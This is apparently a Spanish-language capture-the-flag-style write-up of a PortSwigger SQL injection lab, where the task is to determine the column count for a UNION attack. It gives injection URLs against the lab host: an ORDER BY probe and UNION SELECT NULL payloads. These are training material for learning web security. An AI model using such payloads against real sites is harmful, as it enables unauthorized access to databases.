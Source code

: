 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

- [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a `SQL injection UNION` attack that returns an additional row containing null values.

---

### Explicación:

Si solo se pone una comilla da error, ya que el query se quedaría con una sola comilla, es decir, **Se encuentra un error!!!**

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a46c0863-5d12-4127-9887-7d5d1ecd7a1f)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a79c49df-b0d6-47f3-90b8-0c0c9f0e8b1b)

Ahora hay que buscar la manera de Fuzzear y contar.

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a91df05f-15d9-4d60-a5c0-dc72550d5486)

Esto se vería algo así:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0af7cb7d-db50-4ae9-8462-f7cb35c71ac2)

OJO! port swigger no acepta numeros por eso marca error:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/bb3ee3ea-2a12-4443-ae86-867df5e71359)

PAra hacerlo funcionar se necesita poner NULL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/419b752f-d2a3-4e30-9772-cb9c1bfd548a)

Aunque en este caso no se ven los números en la pantalla, en realidad si pasa el laboratorio, esto debido al `NULL` y podemos saber que tenemos 3 columnas (eso pedía el lab después de todo)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/1c622ff2-4f1a-4e56-b3ff-42ab65c4887e)

Super ojito! También se pueden ingresar comandos ALV

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/d4b6d7e9-95c3-4132-bb31-5a806ce9f877)

A eso se le llama SQLi RC

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/64a6367d-2cf8-4a45-9a75-eae6cf429776)

## Solución:

1. En este caso la vulnerabilidad también está en categorías

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/8a87141b-dded-420f-b75f-05439d0def77)

2. Aquí encuentro el error

3.  Salgo adelante del error y hago el conteo de columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle' ORDER BY 3 -- -
````

4. Acomodo las columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  Union Select 1,2,3 -- -
````

Utilizo NULL en lugar de números

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  UNION SELECT NULL,NULL,NULL -- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/600fb155-e0c3-437c-96f9-e04ba315f31f)

Para Fuzzear lso numeros se debe poner algún string o algo entre cada NULL, en este caso el segundo NULL es el vulnerable

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  UNION SELECT NULL,'Fz3r0',NULL -- -
````






